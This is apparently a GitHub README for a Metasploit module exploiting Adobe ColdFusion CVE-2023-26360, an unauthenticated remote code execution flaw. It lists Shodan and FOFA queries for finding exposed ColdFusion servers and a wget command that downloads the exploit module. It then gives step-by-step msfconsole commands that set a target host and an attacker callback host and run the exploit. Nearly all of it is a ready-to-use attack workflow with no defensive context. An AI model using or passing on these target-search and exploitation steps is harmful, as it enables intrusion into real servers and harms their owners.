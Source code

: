 # CVE-2023-26360
![](https://img.shields.io/static/v1?label=Product&message=Adobe%20Cold%20Fusion&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2018%20Update%2015%20(and%20earlier)%20and%202021%20Update%205%20(and%20earlier)&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)
  

- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Adobe_Cold_Fusion_CVE-2023-26360/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set rhosts target_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set lhost attacker_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > run
```
